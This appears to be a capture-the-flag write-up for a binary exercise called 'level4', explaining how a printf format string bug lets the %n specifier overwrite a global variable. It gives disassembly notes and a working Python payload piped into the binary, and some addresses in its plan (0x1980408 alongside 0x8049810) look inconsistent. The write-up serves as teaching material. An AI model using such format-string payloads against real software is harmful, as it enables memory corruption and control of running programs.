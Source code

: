 ```
https://axcheron.github.io/exploit-101-format-strings/
```

0x8049810  -> address of variable m
0x1025544 -> 16930116 in decimal

0x0102 -> 258 in decimal -> at 0x1980408 + 2 = 0x198040A
0x5544 -> 21828 -> at 0x1980408

lets break it :

- i want to write the value 0x1025544(16930116 in decimal) in the variable m (0x8049810)
- 0x0102 (258 in decimal) at address 0x8049812 (0x8049810 + 2) 
- 0x5544 (21828 in decimal) at address 0x8049810

![](./resources/level4_protections.png)
```
lets check the binary using gdb
```
![](./resources/level4_main_function.png)
```
main is doing a simple call to the n() funtion at the address 0x8048457

lets disassemble it
```
![](./resources/level4_n_function.png)
```
the function n() takes user input and pass it to the function p()
the funtion p() print it back using printf() whitout using format string we can start printing values from the stack 

then the program cheks the value of the variable m if its equald to 0x1025544(16930116 in decimal)
using objdump -t ./level4 | grep "m"   <-> address of the variable m in the bss section we get the addres of the variable m

then using our n modifier we can fill the adress of the variable m with the length of our desired data so that is mets the condition our program is testing 

python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/exploit4

cat /tmp/exploit4 | ./level4
```
